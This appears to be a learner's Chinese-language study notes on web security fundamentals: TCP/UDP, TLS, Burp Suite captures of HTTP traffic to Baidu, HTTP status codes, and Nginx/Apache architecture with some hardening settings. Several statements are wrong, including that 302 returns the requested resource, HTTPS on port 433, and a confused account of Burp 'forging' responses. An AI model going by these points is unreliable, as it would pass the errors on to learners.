

**TCP 断开连接：四次挥手**



**UDP是一种无连接、不可靠、但速度极快的传输协议。它不做确认、不重传、不排序，发出数据后就不管了。**最典型的例子：直播和游戏。如果像TCP那样传完整数据如果网络不是很流畅就会可能造成画面比其他正常的设备慢，画面不统一的结果。所以在直播和游戏这种实时的就需要用UDP连接。

| 维度     | TCP                          | UDP                           |
| :------- | :--------------------------- | :---------------------------- |
| 连接     | 面向连接                     | 无连接                        |
| 可靠性   | 可靠（确认、重传、校验）     | 不可靠（发出不管）            |
| 顺序     | 保证                         | 不保证                        |
| 速度     | 稍慢                         | 更快                          |
| 头部大小 | 20字节                       | 8字节                         |
| 适用场景 | 网页、邮件、文件下载、数据库 | 视频通话、直播、DNS查询、游戏 |

在浏览器（用户态）发起网络请求，最终会触发系统调用，**陷入内核态**，由内核中的 TCP/IP 协议栈来帮你完成三次握手、数据重传、流量控制这些复杂工作。你的程序只需要调用 `read()`、`write()` 读写数据，底层全是内核在忙活。

**安全相关**：

- **SYN洪水攻击**：发送大量SYN但不完成握手，耗尽服务器半连接队列
- **端口扫描**：SYN扫描（发送SYN，看响应判断端口开闭）

**第3步：TLS握手**

**TLS 的目标就是在 TCP 提供的可靠、但明文的传输通道之上，叠加一层安全的加密通道**。

**HTTPS**，本质上就是 **HTTP（应用层协议） + TLS（安全协议）**。

**完整的 TLS 握手**



**安全相关（目前只有老环境可以实现）**：

- **降级攻击**：强迫服务器使用弱加密套件（如出口级加密）
- **中间人攻击**：伪造证书（用户点了“继续访问”或CA被入侵）
- **HSTS**：强制浏览器只能通过HTTPS访问，防止SSL剥离攻击

**第4步：HTTP请求发送**

浏览器构造HTTP请求报文(请求包)，通过TCP连接发送给服务器。

```http
GET / HTTP/1.1
Host: www.baidu.com
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://www.baidu.com/


```

这是一个发给百度的包。发送工具：Burp Suite（抓包代理工具）。正常浏览器访问http://www.baidu.com(80端口)会被强制用 HTTPS 重定向至https://www.baidu.com(433端口)。下面这个是响应包：
第一段：302 Found —— “你要走HTTPS这条门！”

```http
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 154
Content-Type: text/html
Date: Mon, 27 Apr 2026 11:03:38 GMT
Location: https://www.baidu.com/
P3p: CP=" OTI DSP COR IVA OUR IND COM "
P3p: CP=" OTI DSP COR IVA OUR IND COM "
Server: BWS/1.1
Set-Cookie:...
```

这是百度服务器对浏览器的**明确命令**，不是错误。

- `302 Found`：浏览器请求的资源临时搬到了别处。
- `Location: https://www.baidu.com/`：别处就是**HTTPS版本**的首页。
- `Server: BWS/1.1`：BWS是**百度Web服务器**的标识，这证明请求已经到达**真实**的百度服务器。

`302 Found` 是 HTTP 响应状态码之一，表示**服务器成功处理了客户端的请求**，并在响应体中返回了请求的资源或结果。

| 分类                  | 状态码                    | 含义           | 一句话说明                                       |
| :-------------------- | :------------------------ | :------------- | :----------------------------------------------- |
| **1xx（信息）**       | 100 Continue              | 继续           | 服务器已收到请求头，客户端可继续发送请求体       |
|                       | 101 Switching Protocols   | 切换协议       | 服务器同意切换到客户端要求的协议（如 WebSocket） |
| **2xx（成功）**       | 200 OK                    | 成功           | 请求成功，响应体包含结果                         |
|                       | 201 Created               | 已创建         | POST/PUT 成功创建了新资源                        |
|                       | 202 Accepted              | 已接受         | 请求已接收，但还没处理完（异步）                 |
|                       | 204 No Content            | 无内容         | 成功，但响应体为空（如 DELETE）                  |
|                       | 206 Partial Content       | 部分内容       | 返回了资源的一部分（断点续传）                   |
| **3xx（重定向）**     | 301 Moved Permanently     | 永久重定向     | 资源已永久迁移到新 URL，以后请用新地址           |
|                       | 302 Found                 | 临时重定向     | 资源临时在别处，下次还用原地址                   |
|                       | 304 Not Modified          | 未修改         | 缓存有效，直接用本地缓存                         |
|                       | 307 Temporary Redirect    | 临时重定向     | 同 302，但禁止改变请求方法（POST 仍用 POST）     |
|                       | 308 Permanent Redirect    | 永久重定向     | 同 301，但禁止改变请求方法                       |
| **4xx（客户端错误）** | 400 Bad Request           | 坏请求         | 请求语法错误，服务器听不懂                       |
|                       | 401 Unauthorized          | 未认证         | 需要登录（没提供凭证）                           |
|                       | 403 Forbidden             | 禁止           | 已认证，但没权限访问                             |
|                       | 404 Not Found             | 未找到         | 资源不存在                                       |
|                       | 405 Method Not Allowed    | 方法不允许     | HTTP 方法不对（如 GET 请求用了 POST）            |
|                       | 408 Request Timeout       | 请求超时       | 服务器等太久了，客户端没发完                     |
|                       | 413 Payload Too Large     | 请求体过大     | 上传的文件超过了服务器限制                       |
|                       | 429 Too Many Requests     | 请求过多       | 触发了限流（CC 攻击常见）                        |
| **5xx（服务器错误）** | 500 Internal Server Error | 服务器内部错误 | 代码报错、配置错误、崩溃                         |
|                       | 501 Not Implemented       | 未实现         | 服务器不支持请求的功能                           |
|                       | 502 Bad Gateway           | 网关错误       | 代理/网关收到上游无效响应（如后端挂了）          |
|                       | 503 Service Unavailable   | 服务不可用     | 服务器过载或维护中                               |
|                       | 504 Gateway Timeout       | 网关超时       | 代理/网关等上游响应等超时了                      |

百度的服务器（`BWS`）收到后，坚持安全原则，直接告诉你：“别用HTTP明文来了，去HTTPS地址！” 详细机制可以参考RFC 7231（HTTP/1.1语义与内容）中关于重定向状态码的定义。它驱动了浏览器自动发起第二次请求——跟随重定向。

第二段：200 OK —— “欢迎来到加密的百度首页！”

```http
HTTP/1.1 200 OK
Bdpagetype: 1
Bdqid: 0xa74f4be100046528
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Date: Mon, 27 Apr 2026 11:03:50 GMT
P3p: CP=" OTI DSP COR IVA OUR IND COM "
P3p: CP=" OTI DSP COR IVA OUR IND COM "
Server: BWS/1.1
Set-Cookie: BAIDUID=...
Set-Cookie: BDSVRTM=2; path=/
Set-Cookie: BD_HOME=1; path=/
Strict-Transport-Security: max-age=172800
Tr_id: super_0xa74f4be100046528
Traceid: 1777287830344851482612055938157234119976
X-Ua-Compatible: IE=Edge,chrome=1
X-Xss-Protection: 1;mode=block
Content-Length: 644114
```

这是一个真实的百度发来的响应包，成功以http协议访问了百度。这里的包是有 `Strict-Transport-Security` (HSTS) 头表示百度告诉你：“下次必须用 HTTPS”。也就是说，如果我们在从这里动一些什么，就会强制变成http协议。

第三段：200 OK —— “Burp Suite伪造（这是冒牌货）”

最初的访问是用http协议访问，但是百度网站不允许。于是burpsuite作为中间人伪造了一个请求包和响应包，用来欺骗或重新引导你的浏览器，来做日常的web渗透测试。

```http
GET /baidu.html?from=noscript HTTP/1.1
Host: www.baidu.com
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

从开头来看，这个请求包是伪造的（浏览器是看不见的）下面再来看看响应包。

```http
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: max-age=86400
Content-Length: 2947
Content-Type: text/html
Date: Mon, 27 Apr 2026 11:16:29 GMT
Etag: "b83-6500934add840"
Expires: Tue, 28 Apr 2026 11:16:29 GMT
Last-Modified: Wed, 22 Apr 2026 09:32:09 GMT
P3p: CP=" OTI DSP COR IVA OUR IND COM "
Server: Apache
Set-Cookie: BAIDUID=...
Vary: Accept-Encoding,User-Agent
```

这个就是burpsuite伪造的响应包。这就是中间人攻击中的“伪造证书”，用来冒充你想访问的真实网站。攻击者需要让某个你电脑信任的“发证机构”（CA）来签名。但这几乎不可能做到，除非主动向浏览器植入了恶意的根证书。

```mermaid
sequenceDiagram
    participant Browser as 浏览器
    participant Burp as Burp Suite（代理）
    participant Baidu as 百度服务器
    
    Note over Browser,Baidu: === 第一阶段：真实百度响应 ===
    Browser->>Burp: GET / (HTTPS 请求)
    Burp->>Baidu: 转发请求
    Baidu-->>Burp: 真实响应：Server: BWS, HSTS头, 64万字节HTML
    Note right of Burp: 这是“第一段包”
    Burp-->>Browser: 转发（加密）真实响应

    Note over Browser,Baidu: === 第二阶段：真实百度响应 ===
    Browser->>Burp: GET / (HTTPS 请求)
    Burp->>Baidu: 转发请求
    Baidu-->>Burp: 真实响应：Server: BWS, HSTS头, 64万字节HTML
    Note right of Burp: ✅ Burp 解密、原样显示。这就是“第二段包”
    Burp-->>Browser: 转发（加密）真实响应

    Note over Browser,Baidu: === 第三阶段：Burp 伪造响应 ===
    Note over Browser: 清除了浏览器状态，重新访问
    Browser->>Burp: GET / (HTTP 明文请求)
    Note right of Burp: Burp 没有转发给百度而是自己生成了一个假响应
    Burp-->>Browser: 假响应：Server: Apache, 无HSTS, 2千字节
    Note over Browser: 响应看到的“第三段包”
```

再一次访问百度请求包会自带请求升级https协议：Upgrade-Insecure-Requests: 1

这一次直接放包就会被转成https协议。

```mermaid
sequenceDiagram
    participant B as 浏览器
    participant P as Burp Suite (代理)
    participant Baidu as 百度服务器

    Note over B: 输入 http://www.baidu.com
    B->>P: ① 明文HTTP请求(Upgrade-Insecure-Requests: 1)
    Note right of P: “提交”放行请求
    P->>Baidu: ② 转发明文请求
    Baidu-->>P: ③ 返回 302 Found Location: https://...
    P-->>B: ④ 转发 302 响应
    Note over B: 浏览器自动读取Location头
    B->>P: ⑤ 新的HTTPS请求(加密)
    P->>Baidu: ⑥ 转发HTTPS请求
    Baidu-->>P: ⑦ 加密的HTTPS响应(真实的百度首页)
    P-->>B: ⑧ 转发加密响应
    
    Note over B: 看到百度首页，地址栏变成 https://
```

这就是**HSTS**（HTTP严格传输安全协议）的原理：首次访问时会成功以http协议访问并被警告不安全。下一次访问只要是未过期或未清理浏览器记录就会被强制升级为https协议访问。

**安全相关（HTTP/1.1特有）**：

- **请求走私**：利用前端服务器（CDN/反向代理）和后端服务器对`Transfer-Encoding`/`Content-Length`解析不一致，导致请求被拆分/合并
- **Host头攻击**：服务器未校验Host头，可能被用于缓存污染、密码重置劫持

第5步：网络传输

HTTP数据（已加密）封包 → IP包 → 以太网帧 → 经过路由器 → 到达服务器。

第6步：服务器处理

Web服务器（Nginx/Apache/IIS）接收请求，处理或转发给后端应用。

```text
典型架构（Nginx + PHP-FPM）：
网卡收到数据
   │
   ▼
内核协议栈解包 → 到达TCP listen队列
   │
   ▼
Nginx（epoll）accept 连接
   │
   ▼
Nginx 解析请求（HTTP解码）
   │
   ▼
判断：静态文件（HTML/图片）→ Nginx直接返回
       动态请求（PHP） → 通过FastCGI发给PHP-FPM
   │
   ▼
PHP-FPM 执行PHP代码（可能访问MySQL/Redis）
   │
   ▼
返回响应给Nginx
   │
   ▼
Nginx 封装HTTP响应，write回客户端
```

第7步：响应返回与浏览器渲染

浏览器接收HTTP响应，解析HTML、CSS、JS，渲染页面。

**浏览器渲染流程**：

1. 解析HTML → DOM树
2. 解析CSS → CSSOM树
3. 执行JS → 可能修改DOM和CSSOM
4. 合成渲染树
5. 布局（Layout）
6. 绘制（Paint）
7. 合成（Composite）

**安全相关**：

- **XSS**：响应体中的恶意JS被浏览器执行（反射型、存储型、DOM型）
- **内容嗅探**：浏览器误判 Content-Type 导致 XSS（`text/plain` 被当 `text/html` 执行）
- **CSP配置**：`Content-Security-Policy`可大幅降低XSS风险

### 7.3 开发者工具

浏览器的**开发者工具**（DevTools）是一套**内置在浏览器里的调试、分析和查看网页底层运行情况的工具**。

一个**浮在网页上的控制面板**，可以让你看到网页的源代码、网络请求、CSS样式、JavaScript执行情况等。

打开方式：`F12` 或 `Ctrl + Shift + I`（Windows）/ `Cmd + Option + I`（Mac）；在网页任意位置右键 → “检查” 或 “审查元素”；Chrome/Edge：右上角三个点 → 更多工具 → 开发者工具

| 面板                    | 作用                                         | 你用它能干什么                     |
| :---------------------- | :------------------------------------------- | :--------------------------------- |
| **Elements（元素）**    | 查看/编辑网页的 HTML 结构和 CSS 样式         | 临时改文字、调样式、看布局         |
| **Console（控制台）**   | 执行 JavaScript 代码，查看报错和日志         | 调试 JS、测试代码、查看错误信息    |
| **Sources（源代码）**   | 查看网页加载的所有文件，设置断点调试         | 调试 JS、研究别人代码、找接口      |
| **Network（网络）**     | 查看所有网络请求（HTTP/HTTPS）               | **抓包**、看接口返回、分析加载耗时 |
| **Application（存储）** | 查看 Cookie、LocalStorage、SessionStorage 等 | 清缓存、看存储数据、管理登录态     |
| **Performance（性能）** | 分析页面加载和运行性能                       | 找卡顿原因、优化加载速度           |
| **Lighthouse（灯塔）**  | 给网站做性能评分                             | 检查 SEO、性能、无障碍体验         |

使用场景：

**临时改页面文字**（只有自己能看见）

- Elements → 双击文字 → 改 → 回车
- 注意：刷新后就没了，只改本地显示

**看接口返回的数据**

- Network → Fetch/XHR → 点接口 → Preview 或 Response

**清空网站存储（解决登录异常）**

- Application → Storage → Clear site data

**调试自己的 JS 代码**

- Sources → 找到文件 → 点行号设断点 → 刷新页面 → 单步执行

*基本用途是调试自己写的web代码。主要面向web开发人员略带web安全人员*

### 7.4 Web服务器架构

**省时：Web服务器架构核心：前端Nginx做反向代理+负载均衡+静态文件服务，后端PHP-FPM/Tomcat等处理动态内容。做题时关注Nginx/Apache配置文件、目录权限、上传目录解析、错误页信息泄露，以及反向代理导致的内网服务暴露(SSRF)。**

Web服务器架构 = 监听端口 + 解析HTTP + 处理请求（静态返回/动态转发）+ 返回响应。现代架构通常在前端放Nginx做反向代理，后端挂应用服务器（如PHP-FPM、uWSGI、Tomcat）处理动态内容，并配合数据库、缓存、消息队列等中间件。

**Web服务器**：运行在服务器上的软件，负责接收HTTP请求，返回HTTP响应。

| 职责     | 说明                                 |
| :------- | :----------------------------------- |
| 监听端口 | 默认80（HTTP）、443（HTTPS）         |
| 解析HTTP | 解析请求行、请求头、请求体           |
| 路由分发 | 静态文件直接返回，动态请求转发给后端 |
| 并发处理 | 同时处理成千上万个连接               |
| 安全控制 | 限流、防DDoS、TLS终止                |

**常见Web服务器**：

| 软件          | 类型          | 特点                           |
| :------------ | :------------ | :----------------------------- |
| **Nginx**     | 异步事件驱动  | 高并发、低内存、反向代理能力强 |
| **Apache**    | 进程/线程驱动 | 模块丰富、配置灵活、历史久     |
| **IIS**       | 微软官方      | 与Windows/.NET深度集成         |
| **Caddy**     | 自动HTTPS     | 配置简单、自动申请证书         |
| **OpenResty** | Nginx + Lua   | 可编程、适合API网关            |

1\. Web主流：反向代理 + 应用服务器

```mermaid
flowchart TD
    Browser[浏览器]

    subgraph Nginx_Server [Nginx 反向代理服务器]
        Nginx[Nginx]
        Static[静态文件<br/>HTML/CSS/JS/图片]
    end

    PHP["PHP-FPM<br/>PHP应用"]
    Tomcat["Tomcat<br/>Java应用"]
    UWSGI["uWSGI<br/>Python应用"]
    Node["Node.js<br/>JS应用"]

    Browser --> Nginx

    Nginx -->|请求静态资源| Static
    Static -->|直接返回| Browser

    Nginx -->|动态PHP请求| PHP
    Nginx -->|动态Java请求| Tomcat
    Nginx -->|动态Python请求| UWSGI
    Nginx -->|动态Node请求| Node

    PHP -->|响应| Nginx
    Tomcat -->|响应| Nginx
    UWSGI -->|响应| Nginx
    Node -->|响应| Nginx

    Nginx -->|聚合响应| Browser

    style Browser fill:#2196f3,stroke:#0d47a1,color:#fff
    style Nginx fill:#ff9800,stroke:#e65100
    style Static fill:#ffcc80,stroke:#ff9800
    style PHP fill:#4caf50,stroke:#1b5e20,color:#fff
    style Tomcat fill:#f44336,stroke:#b71c1c,color:#fff
    style UWSGI fill:#9c27b0,stroke:#4a148c,color:#fff
    style Node fill:#8bc34a,stroke:#33691e
```

**Nginx在其中的角色**：

| 功能          | 说明                              |
| :------------ | :-------------------------------- |
| 静态文件服务  | 图片、CSS、JS直接返回，不经过后端 |
| 负载均衡      | 把请求分发到多个后端服务器        |
| SSL终止       | 处理HTTPS加密解密，后端用HTTP     |
| 缓存          | 缓存后端响应，减少重复计算        |
| 限流熔断      | 防止后端被流量冲垮                |
| WebSocket代理 | 支持长连接代理                    |

2\. Web现代：微服务 + 网关

```mermaid
flowchart LR
    subgraph Client [客户端层]
        Browser[浏览器]
    end

    subgraph Gateway [网关层]
        APIGateway["API网关<br/>(Kong / APISIX / Nginx)"]
    end

    subgraph Services [业务服务层]
        AuthSvc[认证服务]
        OrderSvc[订单服务]
        StockSvc[库存服务]
        LogisticsSvc[物流服务]
    end

    subgraph Mesh [服务网格层]
        ServiceMesh["Istio"]
    end

    subgraph K8s [容器编排层]
        K8sCluster["K8s 集群"]
    end

    Browser --> APIGateway
    APIGateway --> AuthSvc
    APIGateway --> OrderSvc
    APIGateway --> StockSvc
    APIGateway --> LogisticsSvc

    AuthSvc --> ServiceMesh
    OrderSvc --> ServiceMesh
    StockSvc --> ServiceMesh
    LogisticsSvc --> ServiceMesh

    ServiceMesh --> K8sCluster

    style Client fill:#e3f2fd,stroke:#1565c0
    style Gateway fill:#fff3e0,stroke:#e65100
    style Services fill:#e8f5e9,stroke:#2e7d32
    style Mesh fill:#f3e5f5,stroke:#6a1b9a
    style K8s fill:#e0f7fa,stroke:#00838f
```

**7.2.1 Nginx架构详解**

1\. Nginx整体架构

```mermaid
flowchart LR
    Master["Nginx Master 进程"]

    Master --> W1["Worker"]
    Master --> W2["Worker"]
    Master --> W3["Worker"]
    Master --> W4["Worker"]
    Master --> W5["Worker"]

    W1 -.-> Shared
    W2 -.-> Shared
    W3 -.-> Shared
    W4 -.-> Shared
    W5 -.-> Shared

    subgraph Shared [共享内存]
        direction TB
        C["缓存"]
        L["限流计数"]
    end

    style Master fill:#f9a825,stroke:#e65100
    style W1 fill:#43a047,stroke:#1b5e20,color:#fff
    style W2 fill:#43a047,stroke:#1b5e20,color:#fff
    style W3 fill:#43a047,stroke:#1b5e20,color:#fff
    style W4 fill:#43a047,stroke:#1b5e20,color:#fff
    style W5 fill:#43a047,stroke:#1b5e20,color:#fff
    style Shared fill:#bbdefb,stroke:#1976d2
```

**Master进程**：

- 读取配置文件
- 管理Worker进程（启动、停止、重启）
- 处理信号（`nginx -s reload`）

**Worker进程**：

- 真正处理请求的进程
- 每个Worker是**单线程 + epoll**（事件驱动）
- 多个Worker通过**惊群**方式竞争连接（`accept_mutex`可解决）

```c
// Nginx Worker简化事件循环
while (1) {
    // 等待事件（epoll）
    events = epoll_wait(epoll_fd, ...);
    
    for (event in events) {
        if (event是新的连接请求) {
            accept();  // 接受连接
            // 添加到epoll监听
            epoll_ctl(add, client_fd, EPOLLIN);
        }
        else if (event是可读事件) {
            read();    // 读取HTTP请求
            process(); // 解析并处理
            write();   // 返回响应
        }
        else if (event是错误事件) {
            close();   // 关闭连接
        }
    }
}
```

2\. Nginx请求处理流程

```text
请求到达 → epoll_wait唤醒 → Worker接受连接
    │
    ▼
读取请求（读取到内存缓冲区）
    │
    ▼
解析请求行、请求头（确定路由）
    │
    ▼
┌───┴───┐
│ 匹配 location
└───┬───┘
    │
    ├──→ 静态文件：sendfile直接发文件（零拷贝）
    ├──→ 反向代理：构造新请求发给后端，等待响应
    └──→ FastCGI：通过socket发给PHP-FPM
    │
    ▼
send响应给客户端（异步非阻塞send）
```

3\. Nginx核心配置示例

```nginx
server {
    listen 80;
    server_name example.com;
    
    # 静态文件直接返回
    location /static/ {
        alias /var/www/static/;
        expires 7d;  # 缓存7天
    }
    
    # 动态请求代理给PHP-FPM
    location ~ \.php$ {
        fastcgi_pass 127.0.0.1:9000;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        include fastcgi_params;
    }
    
    # 反向代理（负载均衡）
    location /api/ {
        proxy_pass http://backend_servers;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}

upstream backend_servers {
    least_conn;                # 最少连接策略
    server 10.0.0.1:8080 weight=3;  # weight=3表示权重，处理3倍流量
    server 10.0.0.2:8080 max_fails=3 fail_timeout=30s;
    server 10.0.0.3:8080 backup;     # 备用服务器
}
```

**Web安全人员要关注的配置**：

| 配置                 | 风险                                                   |
| :------------------- | :----------------------------------------------------- |
| `autoindex on;`      | 目录列出，泄露文件结构                                 |
| 不限制`upload`目录   | 上传webshell可执行                                     |
| 不限制`.php`访问     | `location /uploads/`没有`return 403`，上传的.php可执行 |
| `proxy_pass`内网地址 | SSRF风险                                               |

4\. Apache架构(测试常用)

**MPM（Multi-Processing Module）**：

| MPM模式     | 原理             | 特点                           |
| :---------- | :--------------- | :----------------------------- |
| **prefork** | 每个请求一个进程 | 稳定、内存占用大、适合mod_php  |
| **worker**  | 每个进程多个线程 | 内存占用小、但需要线程安全     |
| **event**   | 事件驱动+线程池  | 性能最好，但需要非阻塞模块支持 |

**Apache + PHP通信方式**：

  1\. **mod_php**：PHP作为Apache模块加载（prefork下）
  2\. **php-fpm**：通过FastCGI协议通信（推荐）

**Apache配置示例（.htaccess）**：

```apache
# 禁止访问 .git 目录
RedirectMatch 404 /\.git

# 关闭目录列出
Options -Indexes

# 文件上传目录禁止执行PHP
<Directory /var/www/uploads>
    php_flag engine off
</Directory>
```

5\. 应用服务器（后端语言容器）

| 应用服务器           | 语言       | 特点                                |
| :------------------- | :--------- | :---------------------------------- |
| **PHP-FPM**          | PHP        | FastCGI进程管理、每个请求一个worker |
| **uWSGI / Gunicorn** | Python     | WSGI协议、多进程/多线程             |
| **Tomcat / Jetty**   | Java       | Servlet容器、JSP支持                |
| **Node.js**          | JavaScript | 单线程事件驱动、适合I/O密集型       |
| **IIS**              | .NET       | Windows平台集成                     |

**PHP-FPM架构**：

```mermaid
flowchart TD
    A[Nginx<br/>通过 FastCGI 协议] --> B[PHP-FPM Master]
    
    B --> C1[Worker]
    B --> C2[Worker]
    B --> C3[Worker]
    B --> C4[Worker]
    B --> C5[Worker]
    
    C1 --- D1[处理PHP请求]
    C2 --- D2[处理PHP请求]
    C3 --- D3[处理PHP请求]
    C4 --- D4[处理PHP请求]
    C5 --- D5[处理PHP请求]
    
    style D1 fill:#f9f,stroke:#333,stroke-dasharray: 5 5
    style D2 fill:#f9f,stroke:#333,stroke-dasharray: 5 5
    style D3 fill:#f9f,stroke:#333,stroke-dasharray: 5 5
    style D4 fill:#f9f,stroke:#333,stroke-dasharray: 5 5
    style D5 fill:#f9f,stroke:#333,stroke-dasharray: 5 5
```

6\. Web应用的典型分层

```text
[浏览器]（前端：HTML/JS/CSS）
    │
    ▼
[反向代理]（Nginx：负载均衡、SSL终止、限流、缓存）
    │
    ▼
[应用服务器]（PHP-FPM / Tomcat / uWSGI：执行业务逻辑）
    │
    ▼
[数据层]
├── [MySQL / PostgreSQL]（关系型数据库）
├── [Redis / Memcached]（缓存）
├── [Elasticsearch]（搜索）
└── [消息队列]（RabbitMQ / Kafka）
```

**从HTTP请求角度看**：

1. Nginx接收请求（SSL解密）
2. Nginx判断：静态文件直接`sendfile`返回
3. 动态请求通过FastCGI/HTTP转发给应用服务器
4. 应用服务器执行代码（查询数据库、调用缓存）
5. 应用服务器返回响应给Nginx
6. Nginx返回给客户端

7\. 高并发架构相关组件

